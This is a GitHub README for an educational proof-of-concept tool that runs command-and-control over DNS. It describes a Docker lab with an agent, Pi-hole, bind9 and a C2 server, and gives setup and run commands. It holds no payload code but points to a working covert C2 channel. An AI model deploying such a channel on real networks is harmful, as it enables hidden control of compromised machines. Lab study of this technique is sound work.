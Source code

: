 # C2 over DNS Proof of Concept

This project was undertaken primarily for educational purposes. 
The key components of this project include:

- DNS docker environment environment:
  1. Two subnets - 192.168.3.0/24, 192.168.5.0/24
  2. Client / Agent - 192.168.3.70
  3. DNS Server (pi-hole) 192.168.3.3
  4. DNS Authoritative name-only  server (bind9) 192.168.3.100
  5. a C2 server - 192.168.5.70
- C2 over DNS tool to use.

**Setup**

```bash
git clone https://github.com/adiami14/C2-over-DNS.git
cd C2-over-DNS/enviroment/
./build_env.sh
```

type ``1` and press `Enter` to build the environment for the project or for your own code. Inside the Docker containers, the  /data directory is the project directory shared with the host.

**Example**

inside the C2 server docker (`docker exec -it c2_server bash`)
```bash
./c2_dns.py M -iface eth0 -d c2.dns -ip 192.168.3.3 --debug 
```

Then, within the agent docker (`docker exec -it c2_client bash`)
```bash
./c2_dns.py A -iface eth0 -d c2.dns -ip 192.168.3.3 --debug
```

**Pi-hole docker**

The DNS server cache is disabled for development purposes. To re-enable it, access the DNS server Docker (`docker exec -it dns_server bash`).

Set the `cache-size` variable to 10000 if not already set and restart Pi-hole:

```bash
pihole restartdns
```

**bind9 docker**

This server functions as an authoritative-only domain name server with  one zone (command.control). It is invaluable for both learning and  development. Utilizing Wireshark, you can observe a portion of the DNS  resolution process when a query is sent by the client/agent.

file:///./tests/Screenshot%20from%202023-11-19%2011-55-22.png

 [Screenshot from 2023-11-19 11-56-56.png-30:-34:84:51](tests/Screenshot from 2023-11-19 11-56-56.png-30:-34:84:51) 
